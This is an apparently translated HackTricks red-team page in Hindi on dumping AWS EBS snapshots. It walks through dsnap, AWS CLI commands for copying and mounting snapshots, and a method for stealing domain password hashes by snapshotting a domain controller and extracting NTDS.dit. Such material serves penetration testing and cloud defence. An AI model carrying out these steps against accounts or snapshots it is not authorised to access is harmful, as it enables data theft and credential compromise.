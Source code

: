 # AWS - EBS स्नैपशॉट डंप

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks और HackTricks Cloud** github repos में PRs सबमिट करके।

</details>

### स्नैपशॉट को स्थानीय रूप से जांचें
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**ध्यान दें** कि dsnap आपको सार्वजनिक स्नैपशॉट डाउनलोड करने की अनुमति नहीं देगा। इसे दुर्गम करने के लिए, आप अपने व्यक्तिगत खाते में स्नैपशॉट की एक प्रति बना सकते हैं, और उसे डाउनलोड कर सकते हैं:
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध की जांच करें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप इसे Pacu का उपयोग करके कर सकते हैं मॉड्यूल [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### AWS में स्नैपशॉट की जांच करना
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**इसे एक EC2 वीएम में माउंट करें जिसे आपके नियंत्रण में है** (यह बैकअप की प्रति क्षेत्र में होना चाहिए):

चरण 1: अपने पसंदीदा आकार और प्रकार के एक नए वॉल्यूम को बनाने के लिए EC2 -&gt; वॉल्यूम पर जाएं।

इस कार्रवाई को करने के लिए निम्नलिखित कमांडों का पालन करें:
- EC2 इंस्टेंस को जोड़ने के लिए एक EBS वॉल्यूम बनाएं।
- सुनिश्चित करें कि EBS वॉल्यूम और इंस्टेंस एक ही क्षेत्र में हैं।

चरण 2: बनाए गए वॉल्यूम पर राइट-क्लिक करके "वॉल्यूम जोड़ें" विकल्प का चयन करें।

चरण 3: इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन करें।

इस कार्रवाई को करने के लिए निम्नलिखित कमांड का उपयोग करें:
- EBS वॉल्यूम को जोड़ें।

चरण 4: EC2 इंस्टेंस में लॉगिन करें और `lsblk` कमांड का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।

चरण 5: `sudo file -s /dev/xvdf` कमांड का उपयोग करके जांचें कि वॉल्यूम में कोई डेटा है या नहीं।

यदि उपरोक्त कमांड का आउटपुट "/dev/xvdf: data" दिखाता है, तो इसका मतलब है कि वॉल्यूम खाली है।

चरण 6: `sudo mkfs -t ext4 /dev/xvdf` कमांड का उपयोग करके वॉल्यूम को ext4 फ़ाइल सिस्टम में स्वरूपित करें। वैकल्पिक रूप से, आप `sudo mkfs -t xfs /dev/xvdf` कमांड का उपयोग करके xfs स्वरूप भी उपयोग कर सकते हैं। कृपया ध्यान दें कि आपको ext4 या xfs में से केवल एक का उपयोग करना चाहिए।

चरण 7: नए ext4 वॉल्यूम को माउंट करने के लिए अपनी पसंदीदा नाम की एक नई निर्देशिका बनाएं। उदाहरण के लिए, आप "newvolume" नाम का उपयोग कर सकते हैं।

इस कार्रवाई को करने के लिए निम्नलिखित कमांड का उपयोग करें: `sudo mkdir /newvolume`.

चरण 8: वॉल्यूम को "newvolume" निर्देशिका में माउंट करें, `sudo mount /dev/xvdf /newvolume/` कमांड का उपयोग करें।

चरण 9: "newvolume" निर्देशिका में डायरेक्टरी बदलें और वॉल्यूम माउंट को सत्यापित करने के लिए डिस्क स्पेस की जांच करें।

इस कार्रवाई को करने के लिए निम्नलिखित कमांड का उपयोग करें:
- `/newvolume` में डायरेक्टरी बदलें।
- `df -h .` कमांड का उपयोग करके डिस्क स्पेस की जांच करें। इस कमांड का आउटपुट "newvolume" निर्देशिका में शेष स्थान दिखाना चाहिए।

आप इसे Pacu का उपयोग करके मॉड्यूल `ebs__explore_snapshots` के साथ कर सकते हैं।

### AWS में स्नैपशॉट की जांच (क्लाइंट उपयोग करके)
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### शैडो कॉपी

किसी भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वे सभी डोमेन उपयोगकर्ताओं के हैश चुरा सकते हैं एक **स्नैपशॉट बनाकर डोमेन कंट्रोलर** का, इसे उनके नियंत्रण में एक इंस्टेंस माउंट करके और **NTDS.dit और SYSTEM** रजिस्ट्री हाइव फ़ाइल को निकालकर Impacket के सीक्रेट्सडंप प्रोजेक्ट के साथ उपयोग करने के लिए।

आप इस टूल का उपयोग कर सकते हैं इस हमले को स्वचालित करने के लिए: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप snapshot बनाने के बाद पिछली तकनीकों में से किसी का उपयोग कर सकते हैं।


# संदर्भ
* https://devopscube.com/mount-ebs-volume-ec2-instance/
